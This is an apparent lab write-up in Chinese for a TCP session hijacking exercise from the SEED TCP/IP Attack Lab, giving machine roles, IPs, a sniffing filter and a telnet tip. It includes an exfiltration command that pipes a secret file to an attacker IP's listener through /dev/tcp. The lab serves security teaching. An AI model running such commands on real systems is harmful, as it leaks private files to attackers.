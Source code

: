 ![TCPSessionHijackingAttack](TCPIPAttackLab/TCPSessionHijackingAttack.png)

本次的分工如下：（kali被踢了）

关于机器的选择，可以提前在服务器上执行下条命令（攻击者已经开启natcat监听）：

```bash
cat /home/seed/secret > /dev/tcp/攻击者IP/9090 
```

如果失败了再检查设备，或者更换设备。

|   身份   |  机器  |       ip        |
| :------: | :----: | :-------------: |
|   User   | ubuntu | 192.168.136.132 |
|  Server  | seed2  | 192.168.136.136 |
| Attacker |  seed  | 192.168.136.130 |

在Seed上，Attacker嗅探数据

```bash
ip.addr==用户IP&&ip.addr==服务器IP
```

如果`telnet: Unable to connect to remote host: Connection refused`可以尝试重启openbsd-inetd(都是用seed应该没有问题，kali可能会出问题)

